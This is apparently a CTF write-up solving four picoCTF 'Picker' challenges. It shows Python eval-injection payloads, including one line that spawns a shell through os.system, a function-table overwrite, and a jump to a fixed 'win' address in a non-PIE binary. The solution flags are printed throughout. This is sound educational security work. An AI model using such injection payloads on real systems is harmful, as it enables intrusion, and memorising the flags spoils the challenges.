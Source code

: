 ```yaml
---
title: PicoCTF - Picker
date: Wed Jul  5 06:16:24 PM +04 2023
categories: [Writeup]
tags: [ctf,picoctf,picogym_exclusive,reversing]
---
```


## Picker I

AUTHOR:  LT 'SYREAL' JONES

### Description

This service can provide you with a random number, but can it do anything else?

Connect to the program with netcat:`$ nc saturn.picoctf.net <port>`<br>
The program's source code can be downloaded  [here](https://artifacts.picoctf.net/c/514/picker-I.py).

### Solution

The program takes in user input and passed is to `eval` => `eval(user_input + '()')`. 

The function which  seems interesting is `win`. It prints flag characters as hex.
```py
  75   │ def win():
  76   │   # This line will not work locally unless you create your own 'flag.txt' in
  77   │   #   the same directory as this script
  78   │   flag = open('flag.txt', 'r').read()
  79   │   #flag = flag[:-1]
  80   │   flag = flag.strip()
  81   │   str_flag = ''
  82   │   for c in flag:
  83   │     str_flag += str(hex(ord(c))) + ' '
  84   │   print(str_flag)
  85   │   
```

```bash
└─$ nc saturn.picoctf.net <port>
Try entering "getRandomNumber" without the double quotes...
==> win
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x36 0x65 0x30 0x34 0x34 0x34 0x30 0x64 0x7d 
Try entering "getRandomNumber" without the double quotes...
==> quit

└─$ python3
>>> s = '0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x36 0x65 0x30 0x34 0x34 0x34 0x30 0x64 0x7d'
>>> for i in map(lambda i: int(i, 16), s.split()): print(chr(i), end='')
... 
picoCTF{4_d14m0nd_1n_7h3_r0ugh_6e04440d}>>> 
>>> exit()
```

> Flag: picoCTF{4_d14m0nd_1n_7h3_r0ugh_6e04440d}
{: .prompt-tip }

## Picker II

### Description

Can you figure out how this program works to get the flag?

Connect to the program with netcat: `$ nc saturn.picoctf.net <port>`<br>
The program's source code can be downloaded  [here](https://artifacts.picoctf.net/c/522/picker-II.py).

### Solution

Since  `win` is filtered from user input we have to improvise. We could have said `==> print(open('flag.txt').read())`, but what if we didn't know the filename? I decided to pop a shell and cat the flag. (A bit overkill)

```bash
└─$ nc saturn.picoctf.net <port>
==> (lambda os: os.system('sh'))(__import__('os'))
cat flag*
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}
```

> Flag: picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}
{: .prompt-tip }

> You can use [Flatliner](https://flatliner.herokuapp.com) app to turn python code into one liners.
{: .prompt-info }

## Picker III

### Description

Can you figure out how this program works to get the flag?

Connect to the program with netcat: `$ nc saturn.picoctf.net <port>`<br>
The program's source code can be downloaded  [here](https://artifacts.picoctf.net/c/525/picker-III.py).

### Solution

From `reset_table` we know what functions we can execute using indexes. `write_variable` looks interesting. If we overwrite `func_table` with the payload we can get flag. 

```py
def reset_table():
  global func_table

  # This table is formatted for easier viewing, but it is really one line
  func_table = \
'''\
print_table                     \
read_variable                   \
write_variable                  \
getRandomNumber                 \
'''
```

I was fiddling around to spawn a shell, but couldnt. So final payload is:
```py
>>> 'win' + ' ' + 'A' * ((32*4) - 3 - 1)
     |       |     |        |     |   └─ space
     |       v     |        |     └─ function length
	 |	   space   |        └─ table variable size
     v             v
flag function   padding           

win AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

```bash
└─$ nc saturn.picoctf.net 56609
==> 3
Please enter variable name to write: func_table
Please enter new value of variable: "win AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
==> 1
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x61 0x31 0x38 0x36 0x66 0x39 0x61 0x63 0x7d 
==> exit
                                                                                                                                       
└─$ echo -n '0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x61 0x31 0x38 0x36 0x66 0x39 0x61 0x63 0x7d' | xxd -r -p
picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_a186f9ac}
```

> Flag: picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_a186f9ac}
{: .prompt-tip } 

## Picker IV

### Description

Can you figure out how this program works to get the flag?

Connect to the program with netcat: `$ nc saturn.picoctf.net <port>`<br> 
The program's source code can be downloaded  [here](https://artifacts.picoctf.net/c/528/picker-IV.c). <br>
The binary can be downloaded  [here](https://artifacts.picoctf.net/c/528/picker-IV).

### Analysis

The main program takes in address and then makes a call to function at that address. The function which we should jump into (in this case) is `win` function.

```c
int main() {
  signal(SIGSEGV, print_segf_message);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  unsigned int val;
  printf("Enter the address in hex to jump to, excluding '0x': ");
  scanf("%x", &val);
  printf("You input 0x%x\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

Basic checks usin `checksec` (from pwntools)

<details>
<summary> Arch:     amd64-64-little</summary>
Arch: `amd64-64-little` refers to the architecture of the binary, indicating that it is compiled for the AMD64 (x86-64) architecture, which is commonly used in 64-bit systems.
</details>
<details>
<summary> RELRO:    Partial RELRO</summary>
RELRO: `Partial RELRO` refers to the Relocation Read-Only (RELRO) protection. RELRO is a security feature that aims to protect against certain types of attacks, such as the Global Offset Table (GOT) overwrite attack. `Partial RELRO` means that only certain parts of the binary's relocation table are marked as read-only, providing partial protection.
</details>
<details>
<summary> Stack:    No canary found</summary>
Stack: `No canary found` indicates that there is no stack canary present in the binary. A stack canary is a security mechanism used to detect stack-based buffer overflows. Its absence may make the program more vulnerable to such attacks.
</details>
<details>
<summary> NX:       NX enabled</summary>
NX: `NX enabled` refers to the No-Execute (NX) or Execute Disable (XD) protection, which is a hardware feature that prevents executing code from regions of memory marked as data. With NX enabled, it is more difficult for attackers to execute arbitrary code in areas that should only contain data, helping to prevent certain types of exploits.
</details>
<details>
<summary> PIE:      No PIE (0x400000)</summary>
PIE: `No PIE (0x400000)` indicates that the binary is not Position Independent Executable (PIE). PIE is a security feature that randomizes the base address of the executable in memory, making it harder for attackers to predict memory addresses and exploit certain vulnerabilities.	
</details> 

Since PIE is disabled it means local binary and remote binary have the same exact memory addresses.

```bash
└─$ gdb -q ./picker-IV
pwndbg> info functions 
All defined functions:

Non-debugging symbols:
...
0x0000000000401270  frame_dummy
0x0000000000401276  print_segf_message
0x000000000040129e  win
0x0000000000401334  main
...
```

### Solution 

```bash
└─$ nc saturn.picoctf.net <port> #                   win function address
Enter the address in hex to jump to, excluding '0x': 000000000040129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}
```

> Flag: picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}
{: .prompt-tip }